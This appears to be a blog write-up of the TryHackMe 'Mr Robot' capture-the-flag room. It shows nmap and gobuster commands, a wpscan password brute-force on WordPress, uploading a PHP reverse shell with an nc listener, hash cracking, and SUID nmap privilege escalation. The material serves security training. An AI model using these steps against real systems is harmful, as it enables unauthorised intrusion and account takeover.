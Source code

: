 ```yaml
---
layout: article
title: Mr Robot CTF
aside:
  toc: true
sidebar:
  nav: write-ups
cover: https://i.imgur.com/mp5JwKO.png
permalink: /writeups/mrrobot
tags:
- TryHackMe
---
```

![](https://i.imgur.com/mp5JwKO.png)

> Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

[Mr. Robot CTF - TryHackMe Room](https://tryhackme.com/room/mrrobot)

### What is key 1?

First of all, start with a port scan: `sudo nmap -sV 10.10.157.176`

- Open ports
```
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
```

Use `gobuster` for folder/file enumeration: `gobuster dir -u https://10.10.157.176 -k -w /usr/share/wordlists/dirb/big.txt`

In the following path `https://10.10.157.176/robots.txt` we found this text:
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Download `https://10.10.157.176/fsocity.dic` file.
And the first key is in `https://10.10.157.176/key-1-of-3.txt`.

### What is key 2?

Surfing to the website we find a login page: `https://10.10.157.176/wp-login.php`. 
At the beginning of `fsocity.dic` there are some potentially usernames (mrrobot, Robot, Elliot).
I tried `Elliot` in the *fogot password* page `https://10.10.157.176/wp-login.php?action=lostpassword` and I received confirm of the correct username.

Use `wpscan` to perform a dictionary attack on login page.

`wpscan --disable-tls-checks --url https://10.10.157.176/wp-login.php -U Elliot -P /home/yami/Desktop/thm/fsocity.dic`

It will take a long time to find the correct password, because it is at the end of the wordlist of more than 800000 words.
Password is *ER28–0652*.

Now we have credentials to enter in the wordpress management page.

We are admin so we can upload a [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) inside *Appearance --> Editor --> 404.php*.

On local machine use `nc -nvlp 9000` and execute via browser *https://ip-address/wp-content/themes/twentyfifteen/404.php*.

When we will be inside, we'll land such as *daemon* user. 

There is a chance to make the present shell more stable by using Python’s Pty module:

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/mrrobot/0.png.png)

Go to `/home/robot/`.

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/mrrobot/1.png.png)

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/mrrobot/2.png.png)

We have to crack md5 hash to find *robot*'s password.
Use *John The Ripper*.

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/mrrobot/3.png.png)

Now we have user password to catch the second key.

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/mrrobot/4.png.png)

### What is key 3?

Now we have to perform privilege escalation.
We have to find some vulnerabilities in the kernel or in some files.

*For privilege escalation we can use either LinPEAS or LinEnum tools which will identify potential vectors for PE in the target server. In order to scan the system, we’ll need to transfer one of the scripts to the victim machine. For this purpose we can use SimpleHTTPServer Python module.*

But we also can run the following command which searches for all files having **SUID** bit set: `find / -perm -u=s -type f 2>/dev/null`

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/mrrobot/5.png.png)

TryHackMe hint suggested *nmap*. It is version 3.81 and it has an interactive mode in which nmap runs with "sudo" privileges. (https://vk9-sec.com/nmap-privilege-escalation/).

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/mrrobot/6.png.png)

We can find third key under `/root`.


*References*:
- [https://infosecwriteups.com/tryhackme-mr-robot-machine-c33476f12c48](https://infosecwriteups.com/tryhackme-mr-robot-machine-c33476f12c48)
- [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
- [https://crackstation.net/](https://crackstation.net/)
- [https://vk9-sec.com/nmap-privilege-escalation/](https://vk9-sec.com/nmap-privilege-escalation/)



